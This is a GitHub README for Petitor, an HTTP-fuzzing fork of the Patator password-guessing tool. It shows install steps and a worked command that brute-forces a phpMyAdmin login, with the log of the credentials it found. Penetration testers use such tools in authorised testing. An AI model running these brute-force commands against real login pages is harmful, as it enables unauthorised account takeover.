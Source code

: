 # Petitor

Petitor is a stripped-down fork of Patator by lanjelot, exclusively focused on HTTP fuzzing.
Patator was written out of frustration from using Hydra, Medusa, Ncrack, Metasploit modules and Nmap NSE scripts for password guessing attacks.

# Differences from Patator

- Module functionality dropped. http_fuzz only.
- Windows support dropped.
- Compatible with recent Python versions.

## Install

```
git clone https://github.com/n0kovo/petitor.git
git clone https://github.com/danielmiessler/SecLists.git
docker build -t petitor petitor/
docker run -it --rm -v $PWD/SecLists/Passwords:/mnt petitor dummy_test data=FILE0 0=/mnt/richelieu-french-top5000.txt
```

## Usage Example

* HTTP : Brute-force phpMyAdmin logon

```
$ petitor url=http://10.0.0.1/pma/index.php method=POST body='pma_username=COMBO00&pma_password=COMBO01&server=1&target=index.php&lang=en&token=' 0=combos.txt before_urls=http://10.0.0.1/pma/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Cannot log in to the MySQL server' -l /tmp/qsdf
11:53:47 petitor    INFO - Starting Patator v0.7-beta (http://code.google.com/p/patator/) at 2014-08-31 11:53 EST
11:53:47 petitor    INFO -
11:53:47 petitor    INFO - code size:clen       time | candidate                          |   num | mesg
11:53:47 petitor    INFO - -----------------------------------------------------------------------------
11:53:48 petitor    INFO - 200  49585:0        0.150 | root:p@ssw0rd                      |    26 | HTTP/1.1 200 OK
11:53:51 petitor    INFO - 200  13215:0        0.351 | root:                              |    72 | HTTP/1.1 200 OK
^C
11:53:54 petitor    INFO - Hits/Done/Skip/Fail/Size: 2/198/0/0/3000, Avg: 29 r/s, Time: 0h 0m 6s
11:53:54 petitor    INFO - To resume execution, pass --resume 15,15,15,16,15,36,15,16,15,40
```

Payload #72 was a false positive due to an unexpected error message:

```
$ grep AllowNoPassword /tmp/qsdf/72_200\:13215\:0\:0.351.txt
... class="icon ic_s_error" /> Login without a password is forbidden by configuration (see AllowNoPassword)</div><noscript>
```
